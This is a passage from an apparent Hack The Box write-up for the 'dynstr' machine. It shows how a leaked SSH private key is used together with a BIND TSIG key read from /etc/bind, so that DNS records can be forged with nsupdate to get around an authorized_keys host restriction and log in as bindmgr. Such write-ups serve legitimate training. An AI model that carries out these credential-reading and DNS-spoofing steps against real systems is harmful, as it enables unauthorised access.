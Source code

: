 ```
b6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

The reason for this can be found in the `authorized_keys` file in bindmgr's ssh directory. It only allows ssh authentication coming from any subdomain of `infra.dyna.htb`.

```
www-datar@dynstr:~$ cat .ssh/authorized_keys
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

Luckily for us there is a key in `/etc` which we can use to update the machines DNS entries with `nsupdate`.

```
www-data@dynstr:/home/bindmgr/support-case-C62796521$ cat /etc/bind/infra.key
key "infra-key" {
        algorithm hmac-sha256;
        secret "7qHH/eYXorN2ZNUM1dpLie5BmVstOw55LgEeacJZsao=";
};
```

Using the key we add a forward and reverse DNS entry for  `sftp.infra.dyna.htb.` pointing to our machine. The next time the machine tries to resolve the allowed hostname it will see our ip connected with it and allow the authentication.

```
www-data@dynstr:~$ nsupdate -v -k /etc/bind/infra.key
> update add sftp.infra.dyna.htb. 86400 A 10.10.14.14
> send
> update add 14.14.10.10.in-addr.arpa. 300 PTR sftp.infra.dyna.htb.
> send
> quit
```

Now we can use the ssh key to log in as bindmgr and grab the user flag.

```
$ ssh -i id_rsa bindmgr@10.129.160.254
Last login: Sun Jun 13 00:17:13 2021 from sftp.infra.dyna.htb
bindmgr@dynstr:~$ wc -c user.txt
33 user.txt
bindmgr@dynstr:~$
```

# Root

## Copy permissions
